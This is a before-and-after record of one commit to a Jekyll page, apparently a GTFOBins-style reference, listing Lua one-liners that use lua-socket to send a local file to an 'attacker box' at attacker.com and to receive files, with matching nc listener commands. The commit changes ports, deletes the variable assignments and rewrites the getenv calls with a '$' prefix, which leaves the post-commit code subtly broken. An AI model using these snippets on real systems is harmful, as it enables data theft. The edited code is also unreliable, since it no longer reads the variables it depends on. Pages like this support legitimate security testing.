

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/lua.md, in a window 1280 px wide. Shown: the part 335-1114 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1039 px from its top, so only the background shows below that.

Commit message:
Update lua.md

```diff
--- a/_gtfoud/lua.md
+++ b/_gtfoud/lua.md
@@ -1,32 +1,27 @@
 ---
 functions:
   file-upload:
-    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires `lua-socket` installed.
+    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file. This requires `lua-socket` installed.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_send
         lua -e '
-          local f=io.open(os.getenv("LFILE"), 'rb')
+          local f=io.open(os.getenv("$LFILE"), 'rb')
           local d=f:read("*a")
           io.close(f);
           local s=require("socket");
           local t=assert(s.tcp());
-          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
+          t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
           t:send(d);
           t:close();'
   file-download:
-    - description: Fetch a remote file via TCP. Run `nc target.com 12345
+    - description: Fetch a remote file via TCP. Run `nc target.com 4444
         < "file_to_send"` on the attacker box to send the file. This requires `lua-socket` installed.
       code: |
-        export LPORT=12345
-        export LFILE=file_to_save
         lua -e 'local k=require("socket");
-          local s=assert(k.bind("*",os.getenv("LPORT")));
+          local s=assert(k.bind("*",os.getenv("$LPORT")));
           local c=s:accept();
           local d,x=c:receive("*a");
           c:close();
-          local f=io.open(os.getenv("LFILE"), "wb");
+          local f=io.open(os.getenv("$LFILE"), "wb");
           f:write(d);
           io.close(f);'
 ---
```
